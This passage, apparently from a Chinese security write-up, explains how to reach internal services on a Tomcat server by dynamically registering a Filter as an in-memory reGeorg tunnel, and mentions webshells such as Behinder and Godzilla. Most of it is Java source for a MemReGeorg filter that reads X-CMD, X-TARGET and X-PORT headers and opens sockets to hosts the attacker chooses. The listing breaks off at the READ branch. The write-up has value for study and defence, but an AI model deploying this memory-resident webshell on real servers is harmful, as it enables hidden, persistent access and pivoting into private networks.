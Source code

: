 由于这题需要的是访问内网不可达的应用，所以需要代理。当然这里使用冰蝎、哥斯拉之类的webshell，开启socks代理做转发也是可以的。对于一些不能出网的情况，正向代理reGeorg还是很有必要的。

接着，我们要做的就是动态注册Filter到tomcat中。通过ServletContext对象（实际获取的是ApplicationContext，是ServletContext的实现，因为门面模式的使用，后面需要提取实际实现），实现了动态注册Filter。

为了方便注册filter，直接实现Filter接口。在doFilter方法中完成reGeorg的主要逻辑，在equals方法中进行filter的动态注册。

```java
package reGeorg;

import javax.servlet.*;
import java.io.IOException;

public class MemReGeorg implements javax.servlet.Filter{
    private javax.servlet.http.HttpServletRequest request = null;
    private org.apache.catalina.connector.Response response = null;
    private javax.servlet.http.HttpSession session =null;

    @Override
    public void init(FilterConfig filterConfig) throws ServletException {
    }
    public void destroy() {}
    @Override
    public void doFilter(ServletRequest request1, ServletResponse response1, FilterChain filterChain) throws IOException, ServletException {
        javax.servlet.http.HttpServletRequest request = (javax.servlet.http.HttpServletRequest)request1;
        javax.servlet.http.HttpServletResponse response = (javax.servlet.http.HttpServletResponse)response1;
        javax.servlet.http.HttpSession session = request.getSession();
        String cmd = request.getHeader("X-CMD");
        if (cmd != null) {
            response.setHeader("X-STATUS", "OK");
            if (cmd.compareTo("CONNECT") == 0) {
                try {
                    String target = request.getHeader("X-TARGET");
                    int port = Integer.parseInt(request.getHeader("X-PORT"));
                    java.nio.channels.SocketChannel socketChannel = java.nio.channels.SocketChannel.open();
                    socketChannel.connect(new java.net.InetSocketAddress(target, port));
                    socketChannel.configureBlocking(false);
                    session.setAttribute("socket", socketChannel);
                    response.setHeader("X-STATUS", "OK");
                } catch (java.net.UnknownHostException e) {
                    response.setHeader("X-ERROR", e.getMessage());
                    response.setHeader("X-STATUS", "FAIL");
                } catch (java.io.IOException e) {
                    response.setHeader("X-ERROR", e.getMessage());
                    response.setHeader("X-STATUS", "FAIL");
                }
            } else if (cmd.compareTo("DISCONNECT") == 0) {
                java.nio.channels.SocketChannel socketChannel = (java.nio.channels.SocketChannel)session.getAttribute("socket");
                try{
                    socketChannel.socket().close();
                } catch (Exception ex) {
                }
                session.invalidate();
            } else if (cmd.compareTo("READ") == 0){
                java.nio.channels.SocketChannel socketChannel = (java.nio.channels.SocketChannel)session.getAttribute("socket");
                try {
                    java.nio.ByteBuffer buf = java.nio.ByteBuffer.allocate(512);
                    int bytesRead = socketChannel.read(buf);
                    ServletOutputStream so = response.getOutputStream();
```